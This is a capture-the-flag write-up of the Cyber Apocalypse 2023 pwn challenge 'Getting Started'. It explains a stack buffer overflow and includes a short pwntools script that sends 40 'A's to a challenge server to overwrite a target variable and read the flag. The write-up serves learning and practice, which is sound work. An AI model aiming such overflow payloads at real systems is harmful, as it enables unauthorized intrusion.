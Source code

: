 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2023 | Getting Started Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2023
parent: cyber_apocalypse_2023
category: pwn
challenge: Getting Started
tags: "pwn, legend, python"
date: 2023-03-27T00:00:00+00:00
last_update: 2023-03-27T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2023</h1>

## Getting Started 
> Solved by Legend

Challenge description


> Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

In this challenge a challenge binary is given and a  `wrapper.py` file is given the code for buffer overflow.

![](https://i.imgur.com/6RwoC4j.png)


Executing the binary shows the Stack frame layout.

![](https://i.imgur.com/wgdbdWW.png)


After that it shows the stack with Address and Value along with indicators to where is the start of the buffer and what is the Target that needs to be changed.

![](https://i.imgur.com/XMsmiMc.png)


Then it shows what happens if we put A’s and B’s as input.

![](https://i.imgur.com/WGVoYSc.png)


Then it asks us to enter A’s to get change the value in Target. I placed 40 A’s and it grave the testing flag.

![](https://i.imgur.com/uUVYySG.png)


Now same can we done in the given script to automate this.


    #wrapper.py#!/usr/bin/python3.8
    
    '''
    You need to install pwntools to run the script.
    To run the script: python3 ./wrapper.py
    '''
    
    # Library
    from pwn import *
    
    # Open connection
    IP   = '165.232.98.69' # Change this
    PORT = 32238      # Change this
    
    r    = remote(IP, PORT)
    
    # Craft payload
    payload = b'A' * 40 # Change the number of "A"s
    
    # Send payload
    r.sendline(payload)
    
    # Read flag
    success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')

Running the script gave the flag.

![](https://i.imgur.com/krCUZGU.png)



